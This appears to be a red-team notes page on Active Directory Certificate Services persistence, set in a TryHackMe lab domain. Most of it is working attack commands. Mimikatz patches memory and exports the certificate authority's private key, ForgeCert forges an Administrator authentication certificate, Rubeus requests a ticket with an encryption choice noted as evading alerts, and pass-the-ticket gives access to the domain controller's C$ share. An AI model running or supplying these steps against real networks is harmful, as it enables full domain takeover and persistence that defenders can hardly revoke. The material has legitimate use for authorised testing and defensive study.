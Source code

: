 
==**This technique is incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild.**==

## General
Persistence through certificates refers to a method of maintaining access to a compromised network by using forged or stolen digital certificates. All we need is a valid certificate that can be used for Client Authentication. This will allow us to use the certificate to request a TGT. The beauty of this? We can continue requesting TGTs no matter how many rotations they do on the account we are attacking.

Digital certificates are used to authenticate the identity of a user or device, and they are typically used in secure communication protocols such as HTTPS, SSL, and TLS.

An attacker can use a forged or stolen digital certificate to authenticate themselves as a trusted user or device, allowing them to gain access to network resources and maintain a persistent presence on the network. They can also use a forged certificate to establish a man-in-the-middle (MitM) attack, allowing them to intercept and manipulate network traffic.

Depending on our access, we can take it another step further. We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it. Even worse, since these certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have to be revoked by the blue team to kick us out.


## Commands

## Extracting the Private Key
The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA.

- It's suggester to create a new directory before launching Mimikatz to get all the exported elements on the same place without any others files

Launch Mimikatz & find CA private Keys
```
mimikatz.exe

mimikatz # crypto::certificates /systemstore:local_machine
```

We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable

Path Memory (Restoration)
```
mimikatz # privilege::debug
mimikatz # crypto::capi
mimikatz # crypto::cng
```

Export Private Keys
```
mimikatz # crypto::certificates /systemstore:local_machine /export
```

The exported certificates will be stored in both PFX and DER format to disk (Example)
```
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx 
```

The `za-THMDC-CA.pfx` certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.

Download the Certificate on your attacking machine and follow the next step if desired (Copy it to other low user priv when you desire to upgrade your permission following the next steps)


## Generating our own Certificates
Now that we have the private key and root CA certificate, we can use the SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a Client Authenticate certificate for any user we want

Forge a new Certificate (ForgeCert)
```
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```
- Parameters explained:
	-   **CaCertPath - The path to our exported CA certificate.**
	-   **CaCertPassword** - The password used to encrypt the certificate. By default, Mimikatz assigns the password of `mimikatz`.
	-   **Subject** - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
	-   **SubjectAltName** - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
	-   **NewCertPath** - The path to where ForgeCert will store the generated certificate.
	-   **NewCertPassword** - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.


Generate TGT from the Certificate ([Rubeus](https://github.com/GhostPack/Rubeus))
```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:

# Example
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
```
- Parameters explained:
	-   **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
	-   **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
	-   **/certificate** - Path to the certificate we have generated
	-   **/password** - The password for our certificate file
	-   **/outfile** - The file where our TGT will be output to
	-   **/domain** - The FQDN of the domain we are currently attacking
	-   **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running


TGT = administrator.kirbi

Use Mimikatz to load the TGT and authenticate to THMDC
```
mimikatz.exe

mimikatz # kerberos::ptt administrator.kirbi

exit

dir \\DC.DOMAIN\c$\
```